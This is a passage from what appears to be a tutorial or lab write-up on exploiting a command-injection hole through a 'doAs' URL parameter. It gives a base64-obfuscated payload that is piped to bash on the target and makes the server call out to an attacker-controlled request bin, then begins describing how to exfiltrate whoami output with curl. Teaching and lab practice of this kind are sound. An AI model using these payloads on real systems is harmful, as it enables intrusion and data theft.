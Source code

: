 Now you have an associated URL to your request bin and you can send requests to this URL getting all that information needed:

```
curl <REQUEST-BIN-URL>
```

<img src="../media/requestbin2.png" width=800 height=400>

To check if the server is vulnerable and the command was successfully executed, we would like the target server to communicate with our created logger: we will make the target to send a GET request to our REQUEST-BIN-URL.
We will introduce a curl command inside the backticks that we discussed before.

But first, we will encode it with base64 inside the URL and then execute it using bash command.

```
echo -n "curl <REQUEST-BIN-URL>" | base64
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```

<img src="../media/simplecurl.png" width=800 height=90>

We can spot two GET requests as we have talked before: one request sent by our shell because of the backticks and another one interpreted by the target shell, meaning that the target is vulnerable.

<img src="../media/requestbinget.png" width=700 height=50>

But we will to extract some system information from the target, so we will try to execute a command and send it with curl. The ```-d``` parameter of curl will specify that we send a request with some data in it: that will be the output of the ```whoami``` command.
